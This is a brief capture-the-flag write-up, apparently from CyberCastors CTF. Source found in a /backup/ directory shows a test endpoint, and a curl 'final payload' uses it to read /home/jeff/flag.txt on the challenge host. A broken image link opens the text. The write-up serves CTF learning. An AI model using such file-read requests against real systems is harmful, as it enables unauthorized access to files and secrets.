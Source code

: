 * Reading the source on /backup/ found test endpoint that call super function
* using that endpoint to read file on /home/jeff/flag.txt
* Final Payload :
`curl http://web1.cybercastors.com:14436/test/home/jeff/flag.txt`
